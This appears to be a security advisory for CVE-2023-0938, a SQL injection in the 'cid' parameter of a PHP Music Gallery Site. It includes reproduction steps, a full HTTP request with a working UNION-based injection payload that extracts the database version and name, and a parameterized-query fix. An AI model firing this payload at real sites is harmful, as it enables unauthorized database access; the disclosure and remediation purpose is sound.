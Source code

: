 # Music Gallery Site - SQL Injection on page music_list.php and parameter cid is vulnerable, application url is (?page=music_list&cid=?). 
>Any remote attacker can access this page to exploit the vulnerbility.

### Date: 
> 21 February 2023

### CVE Assigned:
**[CVE-2023-0938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0938)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0938) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0938)

### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Music Gallery Site](https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> music_list.php
> On this page cid parameter is vulnerable to SQL Injection Attack
> URL of the vulnerable parameter is: /?page=music_list&cid=*
### Description:
> The Music Gallery site does have public pages for music library, on music list there is an SQL injection to filter out the music list with category basis.
### Proof of Concept:
> Following steps are involved:
1. Go to the category menu and click on view category.
2. In URL, there is a parameter 'cid' which is vulnerable to SQL injection (?page=music_list&cid=4*)
### Request:
```
GET /php-music/?page=music_list&cid=5%27+and+false+union+select+1,version(),database(),4,5,6,7--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
### Response:

![image](https://user-images.githubusercontent.com/123810418/220299762-3a0c02cf-364b-49a0-81e5-e7f3f6ed298b.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM `category_list` where `id` = :id and `delete_flag` = 0 and `status` = 1");
$sql->bindparam(':id', $cid);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
